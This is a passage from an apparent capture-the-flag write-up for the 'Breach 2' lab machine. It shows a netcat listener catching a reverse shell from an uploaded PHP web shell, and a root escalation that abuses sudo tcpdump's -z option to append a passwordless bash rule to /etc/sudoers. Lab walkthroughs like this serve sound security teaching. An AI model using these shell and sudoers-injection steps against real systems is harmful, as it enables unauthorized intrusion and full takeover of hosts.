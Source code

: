 As we see our reverse shell was uploaded as the user blumbrgh.

![](/assets/images/breach2/screenshot-14.png)

Then, we start a netcat listener and run the reverse shell, now we are the user blumbergh.

```bash
http://192.168.110.151:8888/oscommerce/includes/work/shell.php
```

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 51353
Linux breach2 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2 (2016-04-08) x86_64 GNU/Linux
 17:03:54 up  3:07,  1 user,  load average: 0.03, 0.15, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
milton   pts/1    localhost        14:14   23:35   2.76s  2.61s -bash
uid=1001(blumbergh) gid=1001(blumbergh) groups=1001(blumbergh),1004(fin)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (499): Inappropriate ioctl for device
bash: no job control in this shell
blumbergh@breach2:/$ 
```

## Privilege Escalation
### Sudo Permissions

Then I check for sudo permissions, blembergh can execute tcpdump as sudo.


```bash
blumbergh@breach2:/$ sudo -l
sudo -l
Matching Defaults entries for blumbergh on breach2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User blumbergh may run the following commands on breach2:
    (root) NOPASSWD: /usr/sbin/tcpdump

```

Next what I did was send the user blumbergh to the sudoers group to execute the bash command as root without providing password via tcpdump tool, for more information you can check it [here](https://pure.security/how-i-got-root-with-sudo/).

```bash
blumbergh@breach2:/$ echo $'id\necho "blumbergh ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers' > /dev/shm/r00t 
blumbergh@breach2:/$ chmod +x /dev/shm/r00t 
blumbergh@breach2:/$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /dev/shm/r00t -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
blumbergh@breach2:/$ uid=0(root) gid=0(root) groups=0(root)

blumbergh@breach2:/$ sudo /bin/bash
root@breach2:/# cd
root@breach2:~# python .flag.py
```